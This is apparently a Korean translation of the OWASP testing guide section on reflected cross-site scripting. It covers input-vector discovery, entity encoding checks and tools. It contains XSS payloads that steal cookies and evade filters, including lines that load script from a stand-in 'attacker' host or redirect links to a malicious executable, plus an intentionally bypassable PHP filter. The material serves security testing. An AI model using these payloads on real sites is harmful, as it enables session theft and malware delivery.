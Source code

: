 ============================================================================================
OTG-INPVAL-001 (반사형 크로스 사이트 스크립팅 테스트)
============================================================================================

|

개요
============================================================================================

반사형 크로스 사이트 스크립팅은 공격자가 HTTP 응답 데이터 안에 브라우저 실행 코드를
삽입할 때 발생합니다.
삽입 공격은 그 자신이 어플리케이션 안에 저장되지 않을 뿐아니라 지속되지 않고, 
악의적으로 조작한 링크 또는 웹 페이지에 접근하는 사용자만 영향을 줍니다.
공격 문자열은 조작한 URI 또는 HTTP 파라미터의 일부에 포함되어, 
어플리케이션에서 부적절하게 처리되어 피해자에게 리턴됩니다.

반사형 XSS는 전체적인 XSS 공격 중 가장 빈번한 공격 형태입니다.
반사형 XSS 공격은 지속적이지 않은 XSS 공격으로 잘 알려져 있고, 공격 페이로드는
싱글 요청 및 응답을 통해 실행되고 전송됩니다.
그래서, 첫번째 순서 또는 타입 1 XSS라고도 불립니다.  

웹 어플리케이션이 해당 공격 형태에 취약할 때, 클라이언트로 요청을 통해 
전송이 확인되지 않은 입력을 돌려보낼 것입니다.

The common modus operandi of the attack includes a design step, in which the 
attacker creates and tests an offending URI, a social engineering step, in
which she convinces her victims to load this URI on their browsers, and the 
eventual execution of the offending code using the victim’s browser.

일반적으로 공격자 코드는 자바스크립트 언어로 쓰여져 있지만, 그 외 스크립팅
언어도 종종 사용됩니다.(ActionScript, VBScript)
공격자는 일반적으로 키 로거 설치, 피해자 쿠키 탈취, 클립보드 탈취 수행,
또는 페이지 컨텐츠 교체를 위해 이 취약점을 이용합니다.

XSS 취약점을 막기 가장 어려운 부분은 적절한 문자 인코딩입니다.
일부 경우, 웹 서버 또는 웹 어플리케이션은 문자의 일부 인코딩을 
필터링할 수 없습니다. 
그래서, 웹 어플리케이션은 **<script>**를 필터링할 수 있지만, 
간단한 인코딩 태그를 포함한 **%3cscript%3e**를 
필터링하지 않을 수 있습니다.

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

블랙 박스 테스트는 최소한 3가지 과정을 포함해야합니다.

1. 입력 벡터 탐지.

침투 테스터는 각각의 웹 페이지에서 모든 웹 어플리케이션의 사용자 정의 변수와 
그들이 입력되는 방법을 확인해야 합니다.
이것은 HTTP 파라미터, POST 데이터, 숨겨진 form 필드 값, 그리고 미리 정의된 radio
또는 selection 값과 같은 숨겨지거나 명백하지 않은 입력을 포함합니다.
일반적으로 브라우저 내에 HTML 에디터 또는 웹 프록시는 숨겨진 변수를 보는 데 사용할 
수 있습니다.

2. 잠재적인 취약점을 탐지하기 위해 각각의 입력 벡터 분석.

XSS 취약점을 탐지하기 위해, 침투 테스터는 각각의 입력 벡터에 특별하게 조작한 입력 
데이터를 사용할 것입니다.
그러한 입력 데이터는 일반적으로 해롭지 않지만, 취약점이 나타난 웹 브라우저로 부터
응답 데이터가 트리거됩니다.
침투 테스트 데이터는 웹 어플리케이션 퍼저, 알려진 공격 문자열 리스트 또는 수동으로
생성될 수 있습니다.

입력 데이터 예제

.. code-block:: html

    <script>alert(123)</script>

.. code-block:: html

    "><script>alert(document.cookie)</script>

더 자세한 목록은 XSS Filter Evasion Cheat Sheet을 참고

3. 이 전 과정에서 시도된 입력값으로, 침투 테스터는 결과를 분석할 수 있습니다. 
그리고, 웹 어플리케이션의 보안에 실제 영향을 주는 취약점을 나타내는 경우를 결정합니다.
이것은 HTML 웹 페이지 결과와 침투테스트 입력 검색 테스트가 요구됩니다.
발견되면, 침투 테스터는 인코딩된 것, 대체된 것, 또는 필터링 된 것에 대해 적합하지 않은 
특수 문자를 식별합니다.
필터링 되지 않은 취약한 특수 문자 집합은 HTML의 섹션 컨텍스트에 따라 달라집니다.

모든 HTML 특수 문자가 HTML 엔티티로 교체되는 지 식별합니다.

식별할 키 HTML 엔티티

.. code-block:: html

    > (초과)
    < (미만)
    & (앰퍼센트)
    ' (싱글 쿼트)
    " (더블 쿼트)

그러나, 엔티티의 전체 리스트는 HTML 과 XML 규격에 정의되어 있습니다. 
Wikipedia에 완벽한 reference를 가지고 있습니다.

HTML 액션 또는 자바스크립트 코드의 컨텍스트에서 다른 특수 문자 설정은 
취소, 암호화, 대체, 필터링을 해야할 것입니다.

.. code-block:: html

    \n (new line)
    \r (carriage return)
    \' (싱글 쿼트)
    \" (더블 쿼트)
    \\ (백슬래쉬)
    \uXXXX (unicode 값)

|

예제 1
-------------------------------------------------------------------------------------------

예를 들어, "Welcome %username%"를 출력하는 사이트가 있다고 합시다. 그리고,
다운로드 링크가 있습니다.

침투 테스터는 모든 데이터 입력 포인트는 XSS 공격이 발생할 수 있음을 의심해야 합니다.
그것을 분석하기 위해, 침투 테스터는 사용자 변수를 실행하고 취약점을 트리거 합니다.

다음 링크로 클릭하고 상황을 확인해봅시다.

.. code-block:: html

    http://example.com/index.php?user=<script>alert(123)</script>

만약 필터링이 없다면 다음 팝업이 결과로 발생될 것입니다.

이것은 XSS 취약점이 있다는 걸 의마하고, 침투 테스터의 링크를 클릭한다면
모든 사람의 브라우저에 테스터가 선택한 코드를 실행 할 수 있다는 걸 나타냅니다.

|

예제 2
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example.com/index.php?user=<script>window.onload=
    function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href="http://badexample.com/malicious.exe";}</script>



|

예제 3
-------------------------------------------------------------------------------------------

.. code-block:: html

    <input type="text" name="state" value="INPUT_FROM_USER">

.. code-block:: html

    "onfocus="alert(document.cookie)

|

예제 4
-------------------------------------------------------------------------------------------

.. code-block:: html

    "><script>alert(document.cookie)</script>

.. code-block:: html

    "%3cscript%3ealert(document.cookie)%3c/script%3e


|

예제 5
-------------------------------------------------------------------------------------------

.. code-block:: html

    <scr<script>ipt>alert(document.cookie)</script>

|

예제 6
-------------------------------------------------------------------------------------------

.. code-block:: php

    <?
        $re = "/<script[^>]+src/i";

        if (preg_match($re, $_GET['var']))
        {
            echo "Filtered";
            return;
        }
        echo "Welcome ".$_GET['var']." !";
    ?>

.. code-block:: html

    <script src="http://attacker/xss.js"></script>

.. code-block:: html

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

|

예제 7
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example/page.php?param=<script>[...]</script>


.. code-block:: html

    http://example/page.php?param=<script&param=>[...]</&param=script>


|

Gray Box testing
-------------------------------------------------------------------------------------------

Gray Box testing은 Black box testing과 유사합니다. 
In gray box testing, the pen-tester has partial knowledge of the application. 
In this case, information regarding user input, input validation controls,
and how the user input is rendered back to the user might be
known by the pen-tester.

If source code is available (White Box), all variables received from
users should be analyzed. Moreover the tester should analyze any
sanitization procedures implemented to decide if these can be circumvented.

|

Tools
============================================================================================

- PHP Charset Encoder(PCE): http://yehg.net/encoding/
- HackVertor: http://www.businessinfo.co.uk/labs/hackvertor/
- WebScarab 
- Burp Proxy
- OWASP Zed Attack Proxy (ZAP)
- XSS-Proxy: http://xss-proxy.sourceforge.net/ 
- ratproxy: http://code.google.com/p/ratproxy/
- OWASP Xenotix XSS Exploit Framework

|

References
============================================================================================

OWASP Resources
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet

Books
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application’s Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

Whitepapers
--------------------------------------------------------------------------------------------

- CERT - Malicious HTML Tags Embedded in Client Web Requests: Read
- Rsnake - XSS Cheat Sheet: Read
- cgisecurity.com - The Cross Site Scripting FAQ: Read
- G.Ollmann - HTML Code Injection and Cross-site scripting: Read
- A. Calvo, D.Tiscornia - alert(‘A javascritp agent’): Read ( To be published )
- S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat: Read

|